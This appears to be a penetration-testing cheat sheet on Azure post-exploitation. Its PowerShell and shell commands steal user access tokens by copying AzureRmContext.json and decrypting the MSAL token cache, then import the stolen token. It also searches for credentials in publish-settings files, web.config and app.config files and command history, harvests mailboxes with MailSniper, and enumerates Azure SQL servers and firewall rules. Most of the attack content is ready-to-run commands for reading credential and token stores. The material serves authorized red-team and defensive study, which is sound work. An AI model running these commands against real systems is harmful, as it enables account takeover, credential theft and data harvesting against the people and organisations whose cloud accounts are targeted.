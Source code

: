 # Post exploitation
## Stealing Access tokens
- https://github.com/rvrsh3ll/TokenTactics
### User access tokens method 1
#### Save the AzureRmContext.json
```
cp %USERPROFILE%\.Azure\AzureRmContext.json C:\temp\AzureRmContext.json
```

#### Get the authenticated token for the user
```
Add-Type -AssemblyName System.Security; [Convert]::ToBase64String([Security.Cryptography.ProtectedData]::Unprotect((([Text.Encoding]::Default).GetBytes((Get-Content -raw "$env:userprofile\AppData\Local\.IdentityService\msal.cache"))), $null, [Security.Cryptography.DataProtectionScope]::CurrentUser))
```

#### Save the token into AzureRmContext.json
-  Open AzureRmContext.json file in a notepad and find the line near the end of the file title “CacheData”. It should be null.

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### User access tokens method 2
#### Save azcontext
```
Save-AzContext -Path C:\Temp\AzureAccessToken.json
```

#### Import the token
```
Import-AzContext -Path 'C:\Temp\Live Tokens\StolenToken.json’
```

### Visual Studio Code
- Azure Cloud Service Packages (.cspkg)
- Deployment files created by Visual Studio.
- Possible other Azure services integration (SQL, storage, etc.)
- Through cspkg zip files for creds/certs.
- Search Visual Studio Public Directory ```<cloud project directory>\bin\debug\publish```

### Publish settings in files
- Look for file ```.publishsettings```
- Can contain a Base64 encoded Management Certificate or cleartext credentials
- Save "ManagementCertificate" section into a new .pfx file
- Search the user's Downloads directory and VS projects.

### Storage explorers
- Windows Credential Manager stores these credentials.
- Azure Storage Explorer for example has a built-in “Developer Tools” function that you can use to set breakpoints while loading the credentials allowing you to view them while unencrypted.

### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog
  
### Command history
- Look through command history
- ```~/.bash_history`` or ```%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
```

## Data harvesting
### Email
-• https://github.com/dafthack/MailSniper

#### Search through mailboxes
- From the person itself
```
Invoke-SelfSearch -Mailbox <MAIL>
```

#### Search for open mailboxes
```
Invoke-OpenInboxFinder
```

### Azure SQL
- Azure Transparent Data Encryption (TDE) is enabled by default
- Encrypts data at rest to prevent offline attacks (unless you export it…)
-  Azure SQL servers get a DNS name at <ServerName>.database.windows.net

#### List SQL servers
```
Get-AzSQLServer
```

#### List databases
```
Get-AzSqlDatabase -ServerName <Server Name> -ResourceGroupName <Resource Group Name>
```

#### Check allow list to database
```
Get-AzSqlServerFirewallRule –ServerName <ServerName> -ResourceGroupName <ResourceGroupName>
```
